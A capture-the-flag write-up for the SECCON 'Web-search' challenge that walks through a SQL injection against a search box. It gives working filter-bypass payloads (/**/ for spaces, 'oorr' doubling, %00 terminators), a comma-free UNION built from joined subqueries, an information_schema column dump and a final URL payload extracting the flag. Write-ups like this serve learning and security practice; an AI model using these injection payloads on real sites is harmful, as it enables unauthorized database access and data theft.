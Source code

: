 ## SECCON Web-search Writeup


The challenge opens up with a search box and some content on the articles page. We can use some strings in the text box to search for the articles with that word/letter in it. 

### Recon:

 - First, check if it’s a sqli challenge.
 - Give a ‘(single quote)  -> throws an error. 
 - Given a “(double quote) - > no result.
 - Given a ) -> some results
 - I.e the keyword is enclosed within ‘ ‘ (single brackets). 

Checking for bypasses and formulating the payload:

The first thing to try for a sqli - ‘ or 1=1 -- -

### Results found : 
 - Spaces are stripped
 - Or is escaped
 - Comments did not work

Tried with some other payloads and found in addition to those these are also blocked.
- Pipe is replaced with nothing
- And is replaced with nothing
- % is replaced with nothing
- %0a also did not work
- Worst of all commas are also stripped

### Bypasses:
If space is blocked we can use /**/ or use brackets().

Or is escaped rather replaced with nothing so we can bypass it like this “oorr” only once "or" will be escaped leaving us with "or"
End the statement with ";" then %00 (null byte) to end the command there
No need of pipe since we can use "or"

### Payload:
              We know that it’s sqli - ‘/**/or/**/1=1;%00
Now we can get all the content from the current table. In that content we’ll get the first half of the flag and also a hint -> the next half is in the table flag

 So, we need to get the content from flag table. Cool , we can just do union select 1,2,3 … to find out no. of columns and then dump the database. But, the problem is we cannot use commas

So, we need to figure out a way to select the  same no. of columns on both sides of union. If you remember, the union selects or executes both the queries and the results are joined in the extra rows of the first table. So, if there’s a way to join two columns then we can join how many columns we want so that we can make it equal to the columns in the first command. That is possible and we just have to select what we want as a table and join them using join command
I have already tried select database() and got an error, that means the table has more than one column and also we need to get the data from flag table.
 Select * from table1 join table2 → general join tables syntax

Select * from (select 1) as a join (select 2) as b;
After encoding:
a’/**/union/**/select/**/*/**/from/**/(select/**/1)/**/as/**/a/**/join/**/(select/**/2)/**/as/**/b;%00

The above command select a table with two columns 1 and 2 with the content 1,2. All that now left is to find how many columns we need. From the above command’s result we’ll know that the table has more than 2 rows.Next try with 3 columns, then it’ll show the results. So, the table has/selects 3 columns. Now, time to dump the database.
We know that the table name is flag. We need to get the column name now.

Select * from (select * from (select group_concat(column_name) from information_schema.columns where table_schema=database()) as a join (select 2) as b) as c join (select 1) as d; 

	This will dump all the columns of the tables in that database. For more clarity you can dump it table wise just change table_schema to table_name=’<table_name>’. Now just get the column piece from the flag table you’ll get the other half also.

### Final payload:
http://web-search.chal.seccon.jp/?q=%27/**/union/**/select/**/*/**/from/**/(select/**/*/**/from/**/(select/**/piece/**/from/**/flag)/**/as/**/a/**/join/**/(select/**/2)/**/as/**/b)/**/as/**/c/**/join/**/(select/**/1)/**/as/**/d;%00
